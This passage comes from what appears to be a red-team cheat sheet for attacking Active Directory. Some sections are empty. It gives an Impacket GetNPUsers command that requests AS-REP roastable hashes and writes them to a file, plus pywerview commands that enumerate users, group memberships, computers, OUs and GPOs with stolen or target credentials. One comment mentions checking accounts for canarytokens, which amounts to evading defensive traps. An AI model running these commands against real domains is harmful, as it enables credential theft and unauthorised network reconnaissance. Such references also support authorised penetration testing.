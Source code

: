 #### <a name='shoot-npusers'></a>shoot-npusers
```sh
# https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
GetNPUsers.py $zz -dc-ip $zdom_dc_ip -request >> np_users.txt 
```

#### <a name='shoot-dacl'></a>shoot-dacl
```bash
```

#### <a name='shoot-gmsa'></a>shoot-gmsa
```bash
```

## <a name='iter'></a>iter

### <a name='iter-sid'></a>iter-sid
```bash
```

### <a name='iter-memberof'></a>iter-memberof
User groups:
```bash
# Get user info
ztarg_user_next=""
ztarg_computer=""
date_now=$(date "+%F-%H%M")
pywerview.py get-netuser -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username $ztarg_user_next > $zcase"_getnetuser_"$ztarg_user_next".txt"
pywerview.py get-netuser -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username $ztarg_user_next > $zcase"_getnetuser_"$ztarg_user_next"_"$ztarg_computer"_"$date_now".txt"

# Get user info + canarytoken check
# select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount
egrep -i  "^(cn|whenCreated|accountExpires|pwdLastSet|lastLogon|logonCount|badPasswordTime|badPwdCount)" $zcase"_"$ztarg_computer"_"$ztarg_user_next".txt"

# Get user memberof info
pywerview.py get-netgroup -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username $ztarg_user_next | grep -v "^$" | cut -f2 -d" "  > $zcase"_getnetgroup_xxx.txt"

# Get the machine's full-data
pywerview.py get-netcomputer -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --computername $ztarg_user_next --full-data > $zcase"_getnetcomputer_xxx.txt"

# Get the machines based on an adspath / OU
ztarg_ou="OU=Workstations,"$zdom_fqdn
ztarg_adspath="ldap://$ztarg_ou"
pywerview.py get-netcomputer -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass -a $ztarg_adspath --dc-ip $zdom_dc_ip | grep -v "^$" | cut -f2 -d" " > $zcase"_getnetcomputer_ou_x.txt"

# Get the GPO based on an adspath / OU
pywerview.py get-netgpo -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass -a $ztarg_adspath --dc-ip $zdom_dc_ip > $zcase"_getnetgpo_ou_x.txt"
```
